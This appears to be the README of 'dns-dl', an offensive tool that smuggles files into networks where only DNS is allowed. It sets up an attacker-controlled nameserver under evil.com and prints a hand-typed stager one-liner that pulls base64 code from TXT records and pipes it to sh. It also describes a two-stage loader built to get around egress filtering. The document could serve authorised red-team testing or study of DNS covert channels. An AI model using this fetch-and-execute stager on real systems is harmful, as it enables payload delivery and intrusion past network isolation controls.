


# dns-dl

Deliver files over DNS TXT records. Works in isolated environments where HTTP/SSH/Git are blocked — as long as port 53 is open.

Target-side dependencies: `sh`, `nslookup`, `cut`, `base64` (all busybox standard).

## Assumed Network Layout

Isolated networks typically block all direct outbound traffic except DNS. Only the internal resolver is allowed to reach external DNS servers.



- The target only needs to reach the internal resolver — no direct connection to the attacker required
- The attacker points the NS record for their domain at their server
- The internal resolver delivers queries to the attacker's server during recursive resolution

## Requirements

- **Server**: Python 3 (stdlib only), root for port 53, reachable public IP
- **DNS**: NS record for your domain must point to the server's public IP (see below)
- **Target**: busybox/Alpine-compatible sh environment

## Usage

### 1. DNS setup (one-time)

Point the NS record for `evil.com` at your server's public IP:

```
evil.com.     NS    ns1.evil.com.
ns1.evil.com. A     <YOUR_PUBLIC_IP>
```

### 2. Start the server (attacker machine)

```bash
sudo python3 server.py <file> [--domain <domain>] [--port <port>]
```

```
args:
  file            file to deliver
  --domain, -d    domain to serve under (default: x.lo)
  --port, -p      listen port (default: 53)
```

Example:

```bash
sudo python3 server.py payload.sh --domain evil.com
```

The server prints the stager command on startup:

```
[!] Hand-type on target:

    nslookup -type=txt s.evil.com|cut -d\" -f2|base64 -d|sh
```

### 3. Type on the target (~45 characters)

```sh
nslookup -type=txt s.evil.com|cut -d\" -f2|base64 -d|sh
```

## How it works



**Two-stage design:**

- **Stage 0 (hand-typed)**: fetches `s.DOMAIN`, base64-decodes, and executes the loader
- **Stage 1 (loader)**: queries `0.d.DOMAIN`, `1.d.DOMAIN`, ... in a loop, joins the chunks, decodes and executes the file
- NXDOMAIN on an out-of-range index signals end of data, terminating the loop
- The loader itself is base64-encoded before being served so the TXT record contains no `"` characters, making `cut -d\" -f2` reliable

## Limitations

- The internal resolver must allow TXT record queries (blocked by some filtering resolvers)
- Transfer speed is one DNS round-trip per chunk
- Delivering a binary requires setting the execute bit separately (adjust the loader script as needed)
